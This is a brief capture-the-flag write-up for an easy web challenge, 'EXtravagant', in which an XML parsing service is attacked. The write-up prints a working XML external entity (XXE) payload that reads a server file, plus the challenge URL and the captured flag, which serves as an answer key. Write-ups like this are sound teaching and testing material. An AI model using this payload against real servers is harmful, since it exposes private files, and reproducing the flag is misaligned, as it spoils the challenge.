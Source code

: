 # EXtravagant
50 points - Web - 510 Solves - easy
Expires in: 00:53:14
Author: NightWolf#0268

I've been working on a XML parsing service. It's not finished but there should be enough for you to try out.

The flag is in /var/www

Press the Start button on the top-right to begin this challenge.

## Solving

Create a XML file to read the flag content in `/var/www/`.

```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///var/www/flag.txt'>]>
<root>&read;</root>
```

Upload this file and read use the `View XML` function.

[http://challenge.nahamcon.com:31161/XML?file=text.xml](http://challenge.nahamcon.com:31161/XML?file=text.xml)

flag{639b72f2dd0017f454c44c3863c4e195}
